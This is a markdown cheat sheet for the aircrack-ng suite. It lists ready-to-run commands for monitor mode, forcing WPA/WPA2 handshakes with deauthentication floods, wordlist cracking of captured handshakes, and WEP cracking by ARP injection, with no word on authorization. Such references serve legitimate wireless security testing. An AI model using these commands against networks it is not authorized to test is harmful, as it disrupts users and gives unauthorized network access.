 ## 🧰 Key Tools in the Suite

| Tool          | Purpose                         |
| ------------- | ------------------------------- |
| `airmon-ng`   | Enable/disable monitor mode     |
| `airodump-ng` | Capture packets & handshakes    |
| `aireplay-ng` | Packet injection (e.g., deauth) |
| `aircrack-ng` | Crack captured handshakes       |
| `airbase-ng`  | Fake AP                         |
| `airdecap-ng` | Decrypt WEP/WPA pcap files      |

---

## 🚀 Setup & Monitor Mode

### List Interfaces
```
iwconfig
```

## Kill Conflicting Processes

```
sudo airmon-ng check kill
```

## 📡 Capture Handshake (WPA/WPA2)

1. Start Monitoring

```
sudo airmon-ng start wlan0
```

2. Discover Networks

```
sudo airodump-ng wlan0mon
```
Note BSSID (MAC), channel (CH), and ESSID (name).

3. Targeted Capture

```
sudo airodump-ng --bssid <BSSID> -c <CH> -w capture wlan0mon
```

4. Deauth Client to Force Handshake

```
sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0mon
```

If no specific client, use broadcast:

```
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```

## 🔓 Crack Handshake (WPA/WPA2)

```
aircrack-ng -w wordlist.txt -b <BSSID> capture.cap
```

- `-w`: Wordlist file
- `-b`: BSSID
- `.cap`: Handshake file (from airodump)

## 🔑 Crack WEP

1. Capture IVs

```
airodump-ng --bssid <BSSID> -c <CH> -w wep-dump wlan0mon
```

2. Inject ARP Packets

```
aireplay-ng -3 -b <BSSID> -h <Your_MAC> wlan0mon
```

3. Crack WEP Key

```
aircrack-ng wep-dump.cap
```

## 📂 Output Files

| File          | Description            |
| ------------- | ---------------------- |
| `.cap`        | Packet capture         |
| `.csv`        | CSV log of networks    |
| `.kismet.csv` | Compatible with Kismet |
| `.netxml`     | XML network data       |
## 🛠 Pro Tips

- Use `--ivs` to speed up cracking (WEP)
- Use large wordlists for WPA/WPA2 (e.g., rockyou.txt)
- Combine with `hashcat` for GPU-accelerated cracking
- Monitor power level with `iwconfig` or `airmon-ng`

## 📚 Wordlists

- Default: `/usr/share/wordlists/rockyou.txt.gz`
- Custom: Use `crunch`, `cewl`, or download from:
    - [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

## 📦 Extra Tools

| Tool             | Use                     |
| ---------------- | ----------------------- |
| `airgraph-ng`    | Visualize captures      |
| `airolib-ng`     | WPA pre-computed tables |
| `packetforge-ng` | Create custom packets   |
| `wifi-honey`     | Fake AP for honeypots   |
